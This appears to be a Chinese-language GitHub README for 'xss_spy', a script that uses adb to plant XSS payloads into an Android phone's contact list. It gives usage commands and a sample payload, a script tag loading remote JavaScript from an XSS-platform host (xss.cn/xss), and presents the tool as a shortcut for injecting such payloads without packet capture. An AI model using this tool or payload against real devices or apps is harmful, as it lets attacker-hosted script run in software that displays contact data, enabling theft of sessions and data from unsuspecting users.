 # xss_spy

**快速的将XSS payload 导入安卓手机通讯录**

## 使用方法

使用前请先测试adb是否正常连接
```bash
./adb_connect.sh
```

运行脚本
```bash
python3 xss_spy "your xss payload"
```

> 你的XSS payload 应该像这样 "xss.cn/xss"
> 比如你使用的xss平台给你的payload是这样的
> ```javascript
> <script src=//xss.cn/xss></script>
> ```
> 那么你输入的参数应该是
> ```bash
> python3 xss_spy "xss.cn/xss"
> ```

![img](./img/xss_spy.gif)

## 关于
快速的将xss payload插入通讯录, 免去了抓包，寻找参数的步骤。
